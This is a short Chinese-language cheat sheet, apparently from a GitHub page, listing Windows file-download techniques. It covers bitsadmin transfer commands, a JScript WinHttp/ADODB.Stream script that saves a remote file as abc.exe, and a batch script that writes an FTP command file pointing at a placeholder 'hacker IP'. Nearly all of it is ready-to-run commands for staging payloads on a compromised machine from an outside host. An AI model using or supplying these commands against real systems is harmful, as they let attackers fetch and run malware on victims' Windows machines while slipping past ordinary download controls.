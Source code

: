 

## 使用cmd,bitsadmin下载：

下载主命令：

```
bitsadmin /rawreturn /transfer down http://www.xx.com/haha.txt c:\haha.txt
```



提高下载主命令的优先级（下载大型文件）:

```
bitsadmin /setpriority down foreground
```



## 使用js下载：

创建一个a.js

```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET",WScript.Arguments(0),/*async=*/false);WinHttpReq.Send();  # 发送请求
WScript.Echo(WinHttpReq.ResponseText);  # 返回

# 然后cmd：
cscript /nologo a.js http://www.xx.com/haha.txt >> 123.txt
# 适用于下载脚本
```



创建一个a.js下载后直接保存为文件:

```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET",WScript.Arguments(0),/*async=*/false);WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("abc.exe");

# cmd：
cscript /nologo a.js http://www.xx.com/aa.exe
```

较可靠



## 使用ftp脚本:

创建一个a.bat

```
echo open [黑客ip] > ftp.txt
echo test>>ftp.txt
echo 123>>ftp.txt
echo binary>> ftp.txt
echo get haha.txt>> ftp.txt
echo bye >> ftp.txt
```
